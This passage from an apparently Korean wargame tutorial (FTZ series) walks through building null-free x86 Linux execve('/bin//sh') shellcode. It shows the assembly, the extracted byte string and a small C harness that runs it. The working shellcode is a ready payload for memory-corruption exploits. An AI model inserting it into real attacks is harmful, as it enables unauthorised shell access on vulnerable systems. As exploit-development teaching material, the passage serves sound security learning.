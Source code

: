 <img data-action="zoom" src='{{ "assets/ftz/shellcode/11.png" | relative_url }}' alt='relative'>  

3) 32비트 레지스터인 eax 대신 8비트 레지스터인 al 사용  
32비트 레지스터 eax, 16비트 레지스터 ax(상위 8비트 ah + 하위 8비트 al)  
32비트 레지스터 ebx, 16비트 레지스터 bx(상위 8비트 bh + 하위 8비트 bl)  
32비트 레지스터 ecx, 16비트 레지스터 cx(상위 8비트 ch + 하위 8비트 cl)  
32비트 레지스터 edx, 16비트 레지스터 dx(상위 8비트 dh + 하위 8비트 dl)  
32비트 레지스터 ebp, 16비트 레지스터 bp
32비트 레지스터 esi, 16비트 레지스터 si
32비트 레지스터 edi, 16비트 레지스터 di
32비트 레지스터 esp, 16비트 레지스터 sp

``` c
// AT&T format
//push $0x0
xor %eax, %eax
push %eax

//push $0x0068732f
push $0x68732f2f

push $0x6e69622f
mov %esp, %ebx

//push $0x0
push %eax

push %ebx
mov %esp, %ecx

//mov $0x0, %edx
mov %eax, %edx

//mov $0xb, %eax
mov $0xb, %al

int $0x80
```

<img data-action="zoom" src='{{ "assets/ftz/shellcode/12.png" | relative_url }}' alt='relative'>  

위의 기계어에서 shell을 실행하기 위해 필수로 필요한 코드인 0x80481e2부터 0x80481f7까지의 기계어를 추출하면 됩니다.  

## 7) 완성된 쉘코드가 정상적으로 동작하는지 확인  

``` bash
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80
```

``` c
// runsh.c
char sh[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80";
void (*func)();
int main(void)
{
        func = (void*)sh;
        func();
        return 0;
}
```

<img data-action="zoom" src='{{ "assets/ftz/shellcode/13.png" | relative_url }}' alt='relative'>  

위 사진과 같이 쉘코드가 정상적으로 실행하는 것을 확인할 수 있습니다.  